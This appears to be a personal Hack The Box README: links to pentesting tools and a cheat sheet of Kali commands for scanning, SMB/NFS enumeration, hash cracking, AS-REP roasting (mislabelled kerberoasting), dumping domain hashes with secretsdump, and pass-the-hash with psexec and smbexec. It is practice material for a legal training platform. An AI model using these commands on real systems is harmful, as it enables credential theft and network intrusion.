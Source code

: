 # HackTheBox

Hack The Box is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.

<img src="https://www.hackthebox.eu/badge/image/134841" alt="Hack The Box">

:)

Link to HTB: \
[http://hackthebox.eu/](http://hackthebox.eu/) 

Tools I use: 
* [Kali Linux](https://www.kali.org/) (Linux distro for pentesting) 
* [Commando VM](https://github.com/fireeye/commando-vm) (Windows VM for pentesting)

Help resources: 
* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) (Youtube walkthrough videos) 
* [The Cyber Mentor](https://www.youtube.com/channel/UC0ArlFuFYMpEewyRBzdLHiw) (Youtube tutorials)
* [Rapid7](https://www.rapid7.com/db/) (Vulnerability & Exploit Database)
* [Exploit DB](https://www.exploit-db.com/) (Exploit Database)
* [Hack the Box Forums](https://forum.hackthebox.eu/)

### Kali Linux commands

Cracking zipfile with fcrackzip:
``` 
fcrackzip -D -p ~/Downloads/rockyou.txt noise_samples.zip 
```

Portscanning target with nmap
```
nmap -sC -sV [targetIP]
```
```
nmap -A -T4 -p- [targetIP]
```
nmap for when you see rpcbind
```
nmap -sV --script=nfs-showmount [targetIP]
```
Show shares
```
showmount -e [targetIP]
```

Mount a share
```
mount -t nfs [targetIP]:/[sharepath] /[localmountpath]
```


FTP
```
ftp [targetIP]
```
SMB Client
```
smbclient -L [targetIP] -U [username]
```
Query netbios names
```
nmblookup -A [targetIP]
```
Finding open shares
```
nbtscan [targetIP]
```
Enumerate samba shares
```
smbmap -H [targetIP]
```
Windows enumeration
```
enum4linux -a [targetIP]
```
Locate path of files
``` 
locate [string]
```
Enumerating users with impacket
```
python3 ./samrdump.py [targetIP]
```
Get password hash from user using kerberosting
```
python3 ./GetNPUsers.py DOMAIN/username -no-pass -dc-ip [dcIPaddress]
```
Crack a password hash
```
john -wordlist=/usr/share/wordlists/rockyou.txt [filewithhashes.txt]
```
Connect over winrm
```
evil-winrm -u [username] -i [targetIP]
```
Connect over winrm, but with access to a folder and its files
```
evil-winrm -i [targetIP] -u USER -p PASSWORD -s /usr/share/windows-resources/powersploit/Privesc/
```

Download all files from smbshare
```
recurse on
prompt off
mask *
mget *
```
Using secretsdump to dump domain hashes (needs acc with DC SYNC permissions)
```
impacket-secretsdump "DOMAIN/useraccount:Password"@ipadresss
```


Connect with psexec or smbexec using pass the hash
```
python3 smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff username@ipadress
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff username@ipadress
```

